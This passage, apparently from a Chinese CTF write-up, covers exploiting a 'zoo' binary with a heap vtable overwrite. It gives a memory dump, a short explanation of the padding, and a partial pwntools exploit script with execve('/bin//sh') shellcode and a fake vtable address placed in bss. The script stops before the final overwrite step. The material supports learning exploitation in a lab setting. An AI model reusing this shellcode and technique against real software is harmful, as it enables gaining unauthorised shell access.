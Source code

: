 ```
0x1263cd0:	0x0000000000000000	0x0000000000000000
0x1263ce0:	0x0000000000000000	0x0000000000000000
0x1263cf0:	0x0000000000000000	0x0000000000000000
0x1263d00:	0x0000000000000000	0x0000000000000000
0x1263d10:	0x0000000000000000	0x0000000000000000


```

可以看到0x1263c70处是要覆盖的虚表地址，而我们是从0x1263c28处开始写，所以需要padding 9 * 0x8 bytes。

直接在读入zooname时在bss段布置好shellcode和fake vtable，最后直接覆盖vtable即可。

完整exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./zoo")
p = process("./zoo")

def adddog(name, weight):
	p.recvuntil("choice :")
	p.sendline("1")
	p.recvuntil("Name : ")
	p.sendline(name)
	p.recvuntil("Weight : ")
	p.sendline(str(weight))

def addcat(name, weight):
	p.recvuntil("choice :")
	p.sendline("2")
	p.recvuntil("Name : ")
	p.sendline(name)
	p.recvuntil("Weight : ")
	p.sendline(str(weight))

def listen(index):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("animal : ")
	p.sendline(str(index))

def show(index):
	p.recvuntil("choice :")
	p.sendline("4")
	p.recvuntil("animal : ")
	p.sendline(str(index))

def remove(index):
	p.recvuntil("choice :")
	p.sendline("5")
	p.recvuntil("animal : ")
	p.sendline(str(index))
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

p.sendafter("Name of Your zoo :", shellcode + p64(0x605420))

adddog("dog1", 40)
adddog("dog2", 40)

```
